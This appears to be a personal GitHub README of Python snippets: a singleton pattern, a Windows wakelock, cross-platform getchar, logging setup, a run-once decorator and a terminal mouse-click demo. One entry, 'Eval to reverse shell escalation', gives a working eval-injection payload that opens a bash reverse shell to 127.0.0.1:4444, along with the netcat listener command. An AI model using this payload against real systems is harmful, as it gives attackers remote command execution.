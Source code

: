 # python-snippets

A collection of various one-liners and recipes I wrote.

<details>
  <summary>Singleton</summary>
  
```python
class WhateverClass():
    def __init__(self):
        ... # Other init code here if needed
        self.__class__.__new__ = lambda _: self  # At the end of init this makes a singleton class
        self.__class__.__init__ = lambda *_, **__: None  # Prevent init from affecting the singleton more than once
```
</details>




<details>
  <summary>Eval to reverse shell escalation</summary>
  
  ```python
  eval("__import__('os').system(\"bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'\")", locals={}, globals={})
  (attacker listens to: $ nc -lvnp 4444)
  ```
  
</details>



<details>
  <summary>Windows wakelock</summary>

```python
python -c "import ctypes,time;f=ctypes.windll.user32.keybd_event;exec('while 1:time.sleep(f(19,0,1,0)+f(19,0,3,0)<<5)')"
```

</details>



<details>
  <summary>Unix getchar</summary>

```python
import os
import termios
import tty
import sys
def getch_nix():
    """Get char, reads single character OR key combination without enter."""
    try:
        old_settings = termios.tcgetattr(sys.stdin.fileno())  # Save terminal settings.
        tty.setraw(sys.stdin.fileno())  # Terminal settings to raw mode; read w/o enter.
        char = sys.stdin.read(1)  # Read first character in blocking mode to wait input.
        os.set_blocking(sys.stdin.fileno(), False)  # Set stdin to non-blocking mode.
        return char + "".join(iter(lambda: sys.stdin.read(1), ""))  # Iter to dump buff.
    finally:  # Restore blocking mode and old terminal settings.
        os.set_blocking(sys.stdin.fileno(), True)
        termios.tcsetattr(sys.stdin.fileno(), termios.TCSANOW, old_settings)
```

</details>


<details>
  <summary>Windows getchar</summary>

```python
import msvcrt
def getch_win():
    """Get char, reads single character OR key combination without enter."""
    # First getch call starts reading, other calls in iter dump kb buffer if non-empty.
    return msvcrt.getch() + b''.join(msvcrt.getch() for _ in iter(msvcrt.kbhit, False))
```

</details>


<details>
  <summary>Minimal logging</summary>

```python
logging.basicConfig(
    level=logging.INFO,
    format="%(asctime)s %(message)s",
    datefmt="%y-%m-%d %H:%M:%S %z"
)
logger = logging.getLogger()
```

</details>




<details>
  <summary>One time only function</summary>

```python
def once(func):
    def wrapper(*args, **kwargs):
        result = func(*args, **kwargs)
        func.__code__ = (lambda *_ , **__: None).__code__
        return result
    return wrapper
```

</details>





<details>
  <summary>Mouse click support in terminal demo</summary>

```python
import os, sys, tty, termios, time, re

def term_setup():
    old_settings = termios.tcgetattr(sys.stdin.fileno())  # Store terminal settings
    tty.setraw(sys.stdin.fileno())  # Set terminal to raw mode to read without enter
    os.set_blocking(sys.stdin.fileno(), False)  # Set stdin to non-blocking mode
    print("\x1b[?1000h\x1b[?1006h", end="", flush=True)  # Enable mouse reporting
    return old_settings  # Return the old terminal settings for restoration

def term_reset(old_settings):
    print("\x1b[?1000l\x1b[?1006l", end="", flush=True)  # Disable mouse reporting
    os.set_blocking(sys.stdin.fileno(), True)  # Restore stdin blocking mode
    termios.tcsetattr(sys.stdin.fileno(), termios.TCSANOW, old_settings)  # Reset term

if __name__ == "__main__":  # xterm mouse click support demo
    old_settings = term_setup()  # Register cleanup with setup return val
    print("Left click terminal for demo, right click to quit.", end="\r\n", flush=True)
    while time.sleep(0.1) is None:  # Loop until a right click is detected
        data = "".join(iter(lambda: sys.stdin.read(1), ""))  # Dump stdin buffer
        match = re.search(r"\x1b\[<(\d+);(\d+);(\d+)([mM])", data)
        button, x, y, event = match.groups() if match else ("", "", "", "")
        print(x, y, end="\r\n", flush=True) if button == "0" and event == "M" else None
        (term_reset(old_settings) or exit()) if button == "2" and event == "m" else None

```

</details>
